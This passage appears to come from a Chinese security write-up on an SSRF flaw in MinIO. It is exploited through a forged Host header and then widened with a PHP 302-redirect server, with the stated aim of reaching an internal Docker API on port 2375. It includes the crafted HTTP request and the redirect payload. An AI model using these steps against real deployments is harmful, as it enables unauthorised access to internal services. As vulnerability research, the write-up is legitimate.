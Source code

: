 ```php
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向http://192.168.227.131:9000发送如下请求，其中Host的值是我本地ncat开放的端口（192.168.1.142:4444）：

```php
POST /minio/webrpc HTTP/1.1
Host: 192.168.1.142:4444
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

![](https://shs3.b.qianxin.com/butian_public/f4eea48caef0f9025af3721ff5c874804.jpg)

可以确定这里存在一个SSRF漏洞了。

0x02 升级SSRF漏洞
-------------

仔细观察，可以发现这是一个POST请求，但是Path和Body都没法控制，我们能控制的只有URL中的一个参数WebIdentityToken。

但是这个参数经过了URL编码，无法注入换行符等其他特殊字符。这样就比较鸡肋了，如果仅从现在来看，这个SSRF只能用于扫描端口。我们的目标当然不仅限于此。

幸运的是，Go默认的http库会跟踪302跳转，而且不论是GET还是POST请求。所以，我们这里可以302跳转来“升级”SSRF漏洞。

使用PHP来简单地构造一个302跳转：

```php
<?php
header('Location: http://192.168.1.142:4444/attack?arbitrary=params');
```

将其保存成index.php，启动一个PHP服务器：  
![](https://shs3.b.qianxin.com/butian_public/fbbf71d62aa8aca3c07c59ffd2750a83a.jpg)

将Host指向这个PHP服务器。这样，经过一次302跳转，我们收获了一个可以控制完整URL的GET请求：  
![](https://shs3.b.qianxin.com/butian_public/f5ec931f959c66977bedf0b83a30a9db4.jpg)

放宽了一些限制，结合前面我对这套内网的了解，我们可以尝试攻击Docker集群的2375端口。

2375是Docker API的接口，使用HTTP协议通信，默认不会监听TCP地址，这里可能是为了方便内网其他机器使用所以开放在内网的地址里了。那么，我们是否可以通过SSRF来攻击这个接口呢？

在Docker未授权访问的情况下，我们通常可以使用docker run或docker exec来在目标容器里执行任意命令（如果你不了解，可以参考这篇文章）。但是翻阅Docker的文档可知，这两个操作的请求是POST /containers/create和POST /containers/{id}/exec。

两个API都是POST请求，而我们可以构造的SSRF却是一个GET的。怎么办呢？

### 0x03 再次升级SSRF漏洞
